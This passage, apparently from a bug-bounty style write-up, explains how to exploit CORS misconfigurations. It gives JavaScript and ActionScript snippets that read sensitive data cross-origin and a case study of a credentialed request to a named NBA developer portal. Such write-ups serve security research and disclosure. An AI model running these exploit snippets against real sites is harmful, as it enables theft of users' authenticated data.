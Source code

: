 ```javascript
            })
        });
        
        if (response.ok) {
            const data = await response.json();
            // Data successfully retrieved via CORS bypass
            console.log('Sensitive data:', data);
        }
    } catch (error) {
        console.log('CORS request blocked:', error);
    }
};
```

### 3. SWF-Based Exploitation (Legacy)
```actionscript
// For applications still supporting Flash
System.security.allowDomain("*");
System.security.allowInsecureDomain("*");

var request = new URLRequest("https://target.com/api/sensitive");
request.method = URLRequestMethod.GET;
var loader = new URLLoader();
loader.load(request);
```

## NBA Case Study Analysis

### Discovery Process
1. **Initial Scan**: Standard header inspection of NBA subdomains
2. **Developer Portal**: Found `developerportal.nba.com` with 404 response
3. **Header Analysis**: Discovered problematic CORS configuration
4. **Verification**: Confirmed headers present and exploitable

### Vulnerable Configuration Found
```
HTTP/1.1 404 Not Found
Access-Control-Allow-Origin: http://127.0.0.1:3000
Access-Control-Allow-Credentials: true
Content-Type: text/html; charset=UTF-8
```

### Exploitation Scenario
```html
<!-- Hosted on http://127.0.0.1:3000 -->
<script>
fetch('https://developerportal.nba.com/api/whatever', {
    credentials: 'include',
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({'test': 'data'})
})
.then(r => r.text())
.then(data => console.log(data));
</script>
```
